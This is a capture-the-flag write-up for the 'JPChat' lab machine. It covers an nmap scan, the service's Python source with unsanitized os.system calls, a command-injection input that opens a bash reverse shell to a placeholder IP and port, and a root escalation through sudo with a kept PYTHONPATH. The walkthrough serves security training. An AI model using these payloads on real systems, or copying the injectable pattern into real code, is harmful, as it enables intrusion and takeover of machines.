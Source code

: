 ##JPGChat

#Enumeration
```
# Nmap 7.91 scan initiated Sun Feb 28 13:57:44 2021 as: nmap -sC -sV -o nmap/initial -vvv -p 22,3000 10.10.236.124
Nmap scan report for 10.10.236.124
Host is up, received echo-reply ttl 61 (0.15s latency).
Scanned at 2021-02-28 13:57:45 PST for 13s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBmKdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/FdLMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9ihB8=
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
3000/tcp open  ppp?    syn-ack ttl 61
| fingerprint-strings:
|   GenericLines, NULL:
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.91%I=7%D=2/28%Time=603C11E0%P=x86_64-pc-linux-gnu%r(NU
SF:LL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x20
SF:service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSAG
SF:E\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(currentl
SF:y\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20to\x20
SF:report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")%r(Gen
SF:ericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20t
SF:his\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\
SF:nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(c
SF:urrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x2
SF:0to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 28 13:57:58 2021 -- 1 IP address (1 host up) scanned in 13.29 seconds
```

#Port 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)

https://github.com/Mozzie-jpg/JPChat
jpchat.py
```
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```
so based on the source code when we connect to the service and choose to make a report, we will be prompted to enter a name and then it will run bash and echo our string. There is no input sanitization so if we escape the echo with ;(semicolon) we can then execute another bash command.
```
# nc 10.10.241.107 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
name;bash -i >& /dev/tcp/IP/PORT 0>&1;
your report:
blah
name
```
And we have a reverse shell on our awaiting listener, We stabilize our shell and are the user wes. We can find the user flag in /home/wes/user.txt

#Privilege Escalation
```
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```
Looks like we can set environment variables for PYTHONPATH and run a python script with sudo privileges
```
cat /opt/development/test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
We can't directly write to this file or the directory so a direct code injection or in directory library hijack is not possible. However, because of the env_keep+=PYTHONPATH we can adjust this to a directory we can write to, such as  /home/wes, /dev/shm, /tmp, etc... and place a compare.py with our escalation payload 
import os
os.system("/bin/bash")
we then execute the following
```
export PYTHONPATH="/dev/shm"
sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:/dev/shm#
```
we successfully get a root shell and can find the flag in /root

